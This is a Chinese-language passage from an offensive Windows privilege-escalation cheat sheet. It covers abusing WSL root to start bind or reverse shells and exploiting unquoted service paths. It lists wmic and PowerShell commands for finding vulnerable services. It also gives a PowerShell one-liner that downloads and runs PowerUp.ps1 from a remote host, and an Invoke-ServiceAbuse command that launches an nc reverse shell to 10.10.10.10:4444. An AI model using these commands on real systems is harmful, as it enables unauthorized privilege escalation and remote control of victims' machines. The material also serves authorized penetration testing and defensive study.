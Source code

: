 ## EoP - Windows子系统 for Linux (WSL)

技术借鉴自[Warlockobama的推文](https://twitter.com/Warlockobama/status/1067890915753132032)

> 拥有root权限的Windows子系统 for Linux (WSL) 允许用户在任何端口上创建绑定shell（无需提升）。不知道root密码？没问题，只需将默认用户设置为root W/ <distro>.exe --default-user root。现在启动您的绑定shell或反向shell。

```powershell
wsl whoami
./ubuntun1604.exe config --default-user root
wsl whoami
wsl python -c 'BIND_OR_REVERSE_SHELL_PYTHON_CODE'
```

二进制文件`bash.exe`也可以在`C:\Windows\WinSxS\amd64_microsoft-windows-lxssbash_[...]\bash.exe`中找到

或者您可以在文件夹`C:\Users\%USERNAME%\AppData\Local\Packages\CanonicalGroupLimited.UbuntuonWindows_79rhkp1fndgsc\LocalState\rootfs\`中探索`WSL`文件系统

## EoP - 未加引号的服务路径

Microsoft Windows未加引号服务路径枚举漏洞。所有Windows服务都有一个指向其可执行文件的路径。如果该路径未加引号且包含空格或其他分隔符，则服务将首先尝试访问父路径中的资源。

```powershell
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """

wmic service get name,displayname,startmode,pathname | findstr /i /v "C:\Windows\\" |findstr /i /v """

gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select PathName,DisplayName,Name
```

* Metasploit漏洞利用：`exploit/windows/local/trusted_service_path`
* PowerUp漏洞利用

```powershell
# find the vulnerable application
C:\> powershell.exe -nop -exec bypass "IEX (New-Object Net.WebClient).DownloadString('https://your-site.com/PowerUp.ps1'); Invoke-AllChecks"

...
[*] Checking for unquoted service paths...
ServiceName   : BBSvc
Path          : C:\Program Files\Microsoft\Bing Bar\7.1\BBSvc.exe
StartName     : LocalSystem
AbuseFunction : Write-ServiceBinary -ServiceName 'BBSvc' -Path <HijackPath>
...

# automatic exploit
Invoke-ServiceAbuse -Name [SERVICE_NAME] -Command "..\..\Users\Public\nc.exe 10.10.10.10 4444 -e cmd.exe"
```

